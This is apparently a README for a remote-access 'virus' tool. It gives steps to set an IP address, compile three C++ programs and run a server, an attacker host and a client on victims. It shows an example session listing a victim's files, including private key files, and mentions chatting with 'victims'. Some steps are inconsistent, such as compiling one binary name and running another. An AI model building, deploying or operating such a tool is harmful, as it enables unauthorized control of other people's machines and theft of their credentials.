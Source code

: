 Linux Server only.   

Step 1: Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp


Step 2: Copy all the codes to your Linux Server, and then run:

g++ tcsl.cpp -o tcsl 
g++ host.cpp -o host 
g++ server.cpp -o server 

Step 3: Open 3 terminals and run the command seperately:
./tcsl
And then you can run any amounts of Clients or Host with newly open up terminal
the Host is config as the last connected, after the server has been opened, you can lauch the host or client first either way
./virus
./host

Step 4: Enjoy your commands in the host terminal, it would reply the result send by you, for example:
┌──(root㉿kali)-[/home/kali/Desktop]
└─# ./host              
Connected to the server.
┌──(root♪hr0g) - [~]
└─# ls 1
ca.crt
ca.key
dh.pem
ha.crt
ha.key
hr0g.crt
hr0g.key
server.conf

┌──(root♪hr0g) - [~]
└─# 

use 'chatmode' to communicate with victims(under development)
